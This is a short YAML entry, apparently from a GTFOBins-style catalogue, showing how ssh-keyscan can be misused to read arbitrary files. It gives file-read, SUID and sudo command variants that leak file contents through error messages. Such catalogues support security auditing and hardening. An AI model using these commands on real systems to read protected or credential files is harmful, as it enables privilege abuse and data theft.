 ```yaml
---
description: |
  The file content is actually parsed so only a part of each line is returned as a part of an error message.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        ssh-keyscan -f $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./ssh-keyscan -f $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ssh-keyscan -f $LFILE
---
```

